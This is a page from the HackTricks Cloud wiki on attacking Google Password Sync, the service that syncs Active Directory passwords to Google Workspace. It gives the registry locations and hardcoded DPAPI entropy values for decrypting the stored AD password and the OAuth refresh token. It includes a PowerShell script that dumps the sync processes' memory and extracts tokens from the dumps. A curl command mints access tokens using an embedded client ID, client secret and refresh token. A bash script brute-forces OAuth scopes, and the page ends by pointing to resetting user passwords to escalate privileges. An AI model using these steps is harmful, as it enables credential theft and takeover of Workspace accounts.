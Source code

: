 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

This is the binary and service that Google offers in order to **keep synchronized the passwords of the users between the AD** and Workspace. Every-time a user changes his password in the AD, it's set to Google.

It gets installed in `C:\Program Files\Google\Password Sync` where you can find the binary `PasswordSync.exe` to configure it and `password_sync_service.exe` (the service that will continue running).

### GPS - Configuration

To configure this binary (and service), it's needed to **give it access to a Super Admin principal in Workspace**:

* Login via **OAuth** with Google and then it'll **store a token in the registry (encrypted)**
  * Only available in Domain Controllers with GUI
* Giving some **Service Account credentials from GCP** (json file) with permissions to **manage the Workspace users**
  * Very bad idea as those credentials never expired and could be misused
  * Very bad idea give a SA access over workspace as the SA could get compromised in GCP and it'll possible to pivot to Workspace
  * Google require it for domain controlled without GUI
  * These creds are also stored in the registry

Regarding AD, it's possible to indicate it to use the current **applications context, anonymous or some specific credentials**. If the credentials option is selected, the **username** is stored inside a file in the **disk** and the **password** is **encrypted** and stored in the **registry**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

In the file **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** it's possible to find part of the configuration like the **`baseDN`** of the AD configured and the **`username`** whose credentials are being used.

In the registry **`HKLM\Software\Google\Google Apps Password Sync`** it's possible to find the **encrypted refresh token** and the **encrypted password** for the AD user (if any). Moreover, if instead of an token, some **SA credentials** are used, it's also possible to find those encrypted in that registry address. The **values** inside this registry are only **accessible** by **Administrators**.

The encrypted **password** (if any) is inside the key **`ADPassword`** and is encrypted using **`CryptProtectData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

The encrypted token (if any) is inside the key **`AuthToken`** and is encrypted using **`CryptProtecData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Moreover, it's also encoded using base32hex with the dictionary **`0123456789abcdefghijklmnopqrstv`**.

The entropy values were found by using the tool . It was configured to monitor the calls to **`CryptUnprotectData`** and **`CryptProtectData`** and then the tool was used to launch and monitor `PasswordSync.exe` which will decrypt the configured password and auth token at the beginning and the tool will **show the values for the entropy used** in both cases:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Note that it's also possible to see the **decrypted** values in the input or output of the calls to these APIs also (in case at some point Winpeas stop working).

In case the Password Sync was **configured with SA credentials**, it will also be stored in keys inside the registry **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `PasswordSync.exe` and the `password_sync_service.exe` processes and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>

```powershell
# Define paths for Procdump and Strings utilities   
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"   
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"   
$dumpFolder = "C:\Users\Public\dumps"   
 
# Regular expressions for tokens 
$tokenRegexes = @( 
    "ya29\.[a-zA-Z0-9_\.\-]{50,}", 
    "1//[a-zA-Z0-9_\.\-]{50,}" 
) 
 
# Show EULA if it wasn't accepted yet for strings 
$stringsPath 
 
# Create a directory for the dumps if it doesn't exist   
if (!(Test-Path $dumpFolder)) {   
    New-Item -Path $dumpFolder -ItemType Directory   
}   
 
# Get all Chrome process IDs   
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id
 
# Dump each Chrome process   
foreach ($processId in $chromeProcesses) {   
    Write-Output "Dumping process with PID: $processId"   
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"   
}   
 
# Extract strings and search for tokens in each dump   
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {   
    $dumpFile = $_.FullName   
    $baseName = $_.BaseName 
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"   
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"   
 
    Write-Output "Extracting strings from $dumpFile"   
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile   
    & $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile   
 
    $outputFiles = @($asciiStringsFile, $unicodeStringsFile) 
 
    foreach ($file in $outputFiles) { 
        foreach ($regex in $tokenRegexes) { 
 
            $matches = Select-String -Path $file -Pattern $regex -AllMatches 
 
            $uniqueMatches = @{} 
 
            foreach ($matchInfo in $matches) { 
                foreach ($match in $matchInfo.Matches) { 
                    $matchValue = $match.Value 
                    if (-not $uniqueMatches.ContainsKey($matchValue)) { 
                        $uniqueMatches[$matchValue] = @{ 
                            LineNumber = $matchInfo.LineNumber 
                            LineText   = $matchInfo.Line.Trim() 
                            FilePath   = $matchInfo.Path 
                        } 
                    } 
                } 
            } 
 
            foreach ($matchValue in $uniqueMatches.Keys) { 
                $info = $uniqueMatches[$matchValue] 
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)" 
            } 
        } 
 
        Write-Output "" 
    } 
}
```

</details>

### GPS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     https://www.googleapis.com/oauth2/v4/token
```

### GPS - Scopes

{% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Also, the refresh token is not valid in every application.
{% endhint %}

By default GPS won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do 
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     --data "scope=$scope" \
     https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.user
```

Which is the same one you get if you don't indicate any scope.

{% hint style="danger" %}
With this scope you could **modify the password of a existing user to escalate privileges**.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

